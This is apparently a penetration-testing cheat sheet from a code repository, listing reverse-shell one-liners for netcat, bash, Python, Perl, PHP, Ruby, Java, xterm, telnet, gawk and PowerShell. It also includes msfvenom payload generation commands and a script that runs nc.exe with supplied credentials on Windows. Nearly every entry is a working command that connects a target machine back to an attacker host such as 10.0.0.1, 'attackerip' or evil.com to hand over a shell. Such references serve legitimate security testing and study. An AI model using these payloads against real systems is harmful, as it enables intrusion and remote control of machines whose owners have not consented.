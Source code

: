 # Webshells

# Listening...

# nc
    nc -e /bin/sh 10.0.0.1 1234

# old nc
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# nc variant
    nc -c /bin/sh attackerip 4444
    /bin/sh | nc attackerip 4444
    rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p

# nc windows 
    nc.exe -nlvp 443 -e cmd.exe

# Bash
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    ````
    $ exec 5<>/dev/tcp/evil.com/8080
    $ cat <&5 | while read line; do $line 2>&5 >&5; done
    ````

    0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196


# Python
     os.system('nc 192.168.168.168 443 -e /bin/sh')

     python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Perl
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Perl windows
    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


# php
    This code assumes that the TCP connection uses file descriptor 3.  If it doesn’t work, try 4, 5, 6…
    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

    [exploit/php_reverse_shell/php-reverse-shell.php](exploit/php_reverse_shell/php-reverse-shell.php)

# Ruby
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# Ruby windows
    ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'



# Kali webshell
    /usr/share/webshells/php/php-reverse-shell.php
    /usr/share/webshells/cfm/cfexec.cfm
    /usr/share/webshells/perl/perl-reverse-shell.pl

# ASP reverse shell
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.168.168 LPORT=443 -f asp -o shell.asp - also works for exporting .aspx

# Windows reverse shell
    echo $secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force > wget-runas.ps1
    echo $mycreds = New-Object System.Management.Automation.PSCredential ("username", $secpasswd) >> wget-runas.ps1
    echo $computer = "hostname" >> wget-runas.ps1
    echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.168 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> wget-runas.ps1
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget-runas.ps1


# Java

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

# Xterm
    One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

    xterm -display 10.0.0.1:1
    or $ DISPLAY=attackerip:0 xterm

    To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

    Xnest :1

    You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip

    xterm -display 127.0.0.1:1  # Run this OUTSIDE the Xnest
    

# Telnet

    rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p

    telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp

# gawk
````
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
````
# PowerShell - Nishang Invoke-PowerShellTcp.ps1
Nishang Powershell - Invoke-PowerShellTcp.ps1
- https://github.com/samratashok/nishang
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

# Generate reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=10.10.14.30 LPORT=4444 R
=> generate perl nc

msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.30 LPORT=4444 R
=> nc in shell

# More to read
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

